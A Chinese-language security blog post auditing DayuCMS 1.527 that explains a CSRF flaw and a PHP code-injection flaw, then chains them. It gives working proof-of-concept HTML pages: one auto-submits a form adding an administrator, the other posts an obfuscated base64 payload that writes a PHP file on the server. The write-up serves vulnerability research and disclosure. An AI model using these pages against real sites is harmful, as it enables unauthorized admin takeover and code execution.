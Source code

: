 ```yaml
---
layout: post
title: "DayuCMS 1.527 CSRF漏洞可GetShell"
---
```


# 0x00 背景

下载链接：
站长之家：<http://down.chinaz.com/soft/34205.htm>
官网：<http://www.dayucms.com/show/?id=105&page=1&siteid=1>

首先是感觉代码加固过，可能被之前的白帽子审计过，审计完才发现JoyChou早已对1.526的版本撸过一遍了，具体见：<http://www.joychou.org/index.php/web/dayucms-1-526-foreground-remote-code-execution.html>

<!-- more -->

# 0x01 CSRF

初看源码时感觉IP是无法伪造的，XSS和SQL注入方面代码当中也有一些加固。想要找找短板，于是乎来到比较容易被忽略的CSRF。首先利用管理员账号登录后台，看看在一些表单提交处是否有hidden的token，在添加管理员处用burp抓包看看：

![][1]

的确是没有的，只有一些添加的管理员信息，再到对应的代码中看看，在dayucms.php的38行，是要对应包含admin/admin.inc.php文件：

![][2]

在admin.inc.php的开头并没有对referer进行验证就开始操作对应的action：

![][3]

于是一趟下来就很愉快：

![][4]

下面简单给个PoC代码

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://localhost/dayucms/dayucms.php?file=admin&action=add&roleid=1" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="newadmin[roleid]" value="1">
        <input type="hidden" name="newadmin[username]" value="larry">
        <input type="hidden" name="newadmin[password]" value="larry">
        <input type="hidden" name="newadmin[category][]" value="0">
        <input type="hidden" name="newadmin[allowmultilogin]" value="1">
        <input type="hidden" name="newadmin[disabled]" value="0">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

最后使用虚拟机搭建PoC来验证CSRF，结果可成功添加管理员：

![][5]

# 0x02 代码执行

本来以为就存在个CSRF，不过再耐心看看也是定位到了global.func.php的string2array函数，很明显得存在代码注入可执行任意php代码：

![][6]

可是再一查找全局调用该函数的地方，可能由于代码之前被爆过一次漏洞，发现用到的php脚本都是和后台相关联的，也就是需要登录后台才可以利用：

![][7]

所以就定位到在gather.class.php中gather对象的import方法会$data[1]字段在base64解码后传入string2array函数：

![][8]

对应得在gather.inc.php文件中对规则的导入使用import这一action，进而可以造成代码注入执行：

![][9]

在后台导入规则处传入`larry-'larry';phpinfo()的base64`编码`bGFycnk=-J2xhcnJ5JztwaHBpbmZvKCk=`后（'-'分割），即可执行php代码：

![][10]

# 0x03 结合

后台执行代码太low怎么办，那就结合呀，正好利用CSRF就可以GetShell了，原理也是相同的，如图所示：

![][11]

PoC代码如下：

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://192.168.1.103/dayucms/dayucms.php?mod=gather&file=gather&action=import" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="importdata" value="bGFycnk=-MTtmcHV0cyhmb3BlbihiYXNlNjRfZGVjb2RlKCdiR0Z5Y25rdWNHaHcnKSwndycpLGJhc2U2NF9kZWNvZGUoJ1BEOXdhSEFnY0dod2FXNW1ieWdwT3lBL1BnJykp">
        <input type="hidden" name="1" value="导入规则">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

[1]: http://ojyzyrhpd.bkt.clouddn.com/20170301/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20170301/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20170301/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20170301/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20170301/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20170301/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20170301/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20170301/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20170301/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20170301/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20170301/11.png